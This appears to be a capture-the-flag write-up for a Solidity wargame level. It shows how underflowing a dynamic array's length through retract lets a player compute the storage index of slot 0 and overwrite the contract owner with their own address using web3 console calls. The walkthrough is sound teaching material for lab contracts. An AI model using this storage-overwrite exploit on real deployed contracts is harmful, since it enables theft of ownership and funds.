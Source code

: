 Notes before solving:
1. We have bytes32 array that is dynamic. Dynamic array has underflow weakness so if the array is set to 0 by decrementing it we will reach the highest number for a dynamic array.
2. We have a function that will turn contact to true ``make_contact``
3. We have function retract that allow us to pop the top from the array.
4. We have revise function that allow us to replace the inside the array.

Since mappings and dynamic arrays has an unpredictable size, they use Keccak-256 hash computation to find the starting position of the value or the array data.
For dynamic arrays, [the] slot stores the number of elements in the array (byte arrays and strings are an exception, see below). For mappings, the slot is unused (but it is needed so that two equal mappings after each other will use a different hash distribution). Array data is located at keccak256(p) and the value corresponding to a mapping key k is located at keccak256(k . p) where . is concatenation.
![image](https://user-images.githubusercontent.com/73179781/182036668-6defccf8-34d8-47f3-ad8a-a2560275f167.png)


## How we will attack:
1. Call make_contact and turn contact to true.
2. Then we will call retract inorder to underflow and have full control on contract storage.
3. Then we find where the contract owner set and call the revise method to add our address.

## Attack
1. await contract.make_contact()
2. await contract.retract()
3. We will get the length of the array by calling p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"],[1])) .
4. Now we will get the owner address. i = BigInt(2**256) -BigInt(p) . The owner is in the in slot 0 in the bytes array.
5. content = "0x" + '0'.repeat(24) + player.slice(2)  this is the one that we will replace.
6. To switch with the owner contract await contract.revise(i,content) 


## Attack2
1. await contract.make_contact()
2. await contract.retract()
3. index = 2²⁵⁶ - 1 - uint(keccak256(1)) + 1 = 2²⁵⁶ - uint(keccak256(1))
4. content = "0x" + '0'.repeat(24) + player.slice(2)  this is the one that we will replace.
5. contract.revise(index,content) 
